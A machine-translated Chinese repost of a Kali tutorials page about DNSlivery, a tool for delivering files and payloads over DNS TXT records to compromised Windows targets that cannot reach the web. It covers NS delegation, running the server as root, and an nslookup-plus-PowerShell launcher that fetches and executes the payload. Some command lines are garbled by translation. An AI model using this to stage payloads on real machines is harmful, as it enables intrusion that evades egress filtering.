




# DNSlivery:通过 DNS 轻松交付文件和有效负载

> 原文：<https://kalilinuxtutorials.com/dnslivery/>

[](https://1.bp.blogspot.com/-bHbcsCPUMV0/XQrdH4moHaI/AAAAAAAAA7Q/5fWgNAIQIMcQb9hShML2MsqBocAN3EAXQCLcBGAs/s1600/DNSlivery%2B-%2B1.gif)

**DNSlivery** 允许使用 DNS 作为传输协议将文件传送到目标。以下是功能:

*   允许在目标上打印、执行或保存文件
*   不需要目标上的任何客户端
*   不需要成熟的 DNS 服务器

你想解决什么问题？

轻松地将文件和/或有效负载交付给无法进行传统 web 交付的受损目标，并且**无需专用客户端软件**。这适用于受限制的环境，在这些环境中，流出的 web 流量被禁止，或者只是被好奇的 web 代理检查。



即使已经存在更完整的 DNS 隧道工具(s.a. [dnscat2](https://github.com/iagox86/dnscat2) 和[碘](https://code.kryo.se/iodine/))，它们都需要在目标上运行专用客户端。问题是，在这种受限的环境中，除了 DNS 之外，可能没有其他方法可以提供客户端。换句话说，使用这些工具构建 DNS 通信通道需要已经有一个 DNS 通信通道。

相比之下，DNSlivery 仅提供从服务器到目标的单向通信，但不需要任何专用客户端来完成此任务。因此，如果您需要在 DNS 上建立一个可靠的双向通信通道，可以使用 DNSlivery 将一个更高级的 DNS 隧道工具的客户机交付到您的目标。

**也读作——[GetWin:FUD Win32 有效负载生成器&监听器](https://kalilinuxtutorials.com/getwin/)**

**它是如何工作的？**

就像大多数 DNS 隧道工具一样，DNSlivery 使用`TXT`记录来存储 base64 表示的文件内容。然而，它不需要设置一个成熟的 DNS 服务器来工作。相反，它使用 [scapy](https://scapy.net/) 库来监听传入的 DNS 包，并制作所需的响应。



由于大多数文件不适合放在单个`TXT`记录中，DNSlivery 将创建多个包含 base64 文件块的有序记录。作为一个例子，上图展示了名为`file`的文件的第 42 个^(和第 3 个)块的交付。

为了检索所有 base64 区块并将它们放回一起，而不需要目标上的专用客户端，DNSlivery 将为每个文件生成:

*   一个简单的明文启动器
*   可靠的 base64 编码 stager



这一两阶段交付流程是向 stager(即处理丢失的 DNS 响应)添加功能所必需的，否则这些功能将无法包含在单个`TXT`记录中。

**目标兼容性注意事项**

目前，仅支持 PowerShell 目标。然而，DNSlivery 可以改进以支持更多的目标，如 bash 或 python。如果这是你希望看到实现的功能，请告诉我。

**要求**

DNSlivery 不需要构建复杂的服务器基础设施。事实上，只有两个简单的要求:

*   能够在您的公共 DNS 区域创建一个`NS`记录
*   拥有一台能够接收互联网流量的 Linux 服务器

**设置**

**DNS 区域**

第一步是通过在您的域中创建新的`NS`记录，将一个子域委派给运行 DNSlivery 的服务器。作为一个例子，我创建了下面的记录来将子域`dnsd.no0.be`委托给位于`vps.no0.be`的服务器。

NS vps.no0.be 中的 dnsd。

如果您的区域由第三方提供商管理，请参考他们的文档来创建`NS`记录。

**DNS lively**

运行 DNSlivery 的唯一要求是`python3`和它的`scapy`库。

git 克隆 https://github.com/no0be/DNSlivery.git & CD DNS livery
pip install-r requirements . txt

**用法**

**服务器**

DNSlivery 将为给定目录的所有文件提供服务(默认为`pwd`)，并且需要以 root 权限运行**，以监听传入的`udp/53`数据包。**

**用法:**DNS live . py[-h][-p PATH][-s SIZE][-v]接口域名服务器

**DNS live–通过 DNS 轻松传送文件和有效负载**

**位置参数:**
接口监听 DNS 流量的接口
域名 FQDN DNS 区域的名称
名称服务器 FQDN 运行 DNS live 的服务器名称

**可选参数:** –PATH 通过 DNS 提供服务的目录路径(默认值:pwd)
-s SIZE，–SIZE 以字节为单位的 base64 块大小(默认值:255)
-v，–verbose 增加详细程度

**例子**

$ sudo python 3 dns live . py eth 0 dnsd . no0 . be VPS . no0 . be-p/tmp/DNS-delivery

DNS live–通过 DNS 轻松交付文件和有效负载

[]File“File”准备在 file.dnsd.no0.be (7 个块)[]监听 DNS 查询…

**关于文件名规范化的说明**

由于域名允许的字符集比 UNIX 文件名更严格(根据 [RFC1035](https://tools.ietf.org/html/rfc1035#section-2.3.1) )，DNSlivery 将在需要时执行规范化。

**举例**:

[*] File“我牛逼的 Powershell 脚本；). ps1“准备交付于 my-awesome-powershell-script—-PS1 . dnsd . no0 . be(1891 块)

请注意，当前的标准化代码并不完美，因为它没有考虑重叠文件名或大小限制。

**目标**

在目标上，通过请求其专用的`TXT`记录，从**检索所需文件的启动器**开始。支持以下三种启动器:

| 行动 | 发射者 | 描述 |
| --- | --- | --- |
| 打印 | `[filename].print.[domain]` | (**默认**)将交付的文件打印到控制台 |
| 执行 | `[filename].exec.[domain]` | 执行交付的文件(对脚本有用) |
| 救援 | `[filename].save.[domain]` | 将交付的文件保存到磁盘(对二进制文件有用) |

```
nslookup -type=txt [filename].[stager].[domain]
```

然后，只需**将 DNS 响应中引用的启动器复制并粘贴到 PowerShell 控制台**中，以在目标上检索文件。

[**Download**](https://github.com/no0be/DNSlivery#what-problem-are-you-trying-to-solve)